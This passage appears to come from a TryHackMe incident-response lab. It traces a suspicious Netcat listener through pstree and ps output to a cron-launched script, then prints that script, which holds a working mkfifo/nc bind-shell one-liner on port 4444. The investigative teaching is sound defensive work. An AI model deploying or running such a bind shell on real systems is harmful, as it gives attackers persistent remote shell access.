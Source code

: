 We can perform a deeper process analysis of the parent process we identified above (PID: 775) using `pstree` and provide options to list its parent processes (`-s`) and their corresponding PIDs (`-p`):

Illustrating the Process Hierarchy with pstree

```shell-session
investigator@tryhackme:~$ pstree -p -s 775
systemd(1)───cron(706)───cron(769)───sh(773)───abzkd83o4jakxld(775)─┬─cat(781)
                                                                       ├─nc(783)
                                                                       └─sh(782)
```

Note: Replace 775 with the PID of the parent process you identified earlier.

In the above output, we can see a hierarchical view of the process tree, where each process is listed along with its parent process and PID. From this tree, we can see that the Netcat (nc) process was spawned by intermediary processes (abzkd83o4jakxld and sh), which are executing scripts spawned by a cronjob (cron).

Now that we have a better idea of how the Netcat process was spawned, we can focus on the parent shell and cron processes to see the commands that were run. To do this, we can return to the `ps` command in full-format listing (`-f`) and filter by those specific PIDs we found in the `pstree` output:

Listing Processes with ps

```shell-session
investigator@tryhackme:~$ ps -f 769 773 775 783
UID          PID    PPID  C STIME TTY      STAT   TIME CMD
root         769     706  0 22:08 ?        S      0:00 /usr/sbin/CRON -f
janice       773     769  0 22:08 ?        Ss     0:00 /bin/sh -c /home/janice/abzkd83o4jakxld.sh
janice       775     773  0 22:08 ?        S      0:00 /bin/bash /home/janice/abzkd83o4jakxld.sh
janice       783     775  0 22:08 ?        S      0:00 nc -l 0.0.0.0 4444
```

Note: Replace 769, 773, 775, and 783 with the PIDs you identified with `pstree`.

This output concludes that a suspicious shell script (`abzkd83o4jakxld.sh`) has been executed from the `/home/janice` directory. If we view the contents of this file, we can confirm that it matches the indicators of a common bind shell one-liner, as discussed earlier:

Viewing the Contents of the Suspicious .sh Script

```shell-session
investigator@tryhackme:~$ cat /home/janice/abzkd83o4jakxld.sh 
#!/bin/bash

# Set the path to the lock file
LOCKFILE="/tmp/abzkd83o4jakxld.lock"

# Check if lock file exists
if [ -e "$LOCKFILE" ]; then
    echo "Script is already running. Exiting."
    exit 1
fi

# Create lock file
touch "$LOCKFILE"

# Main command
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 4444 > /tmp/f

# Remove lock file
rm -f "$LOCKFILE"
```
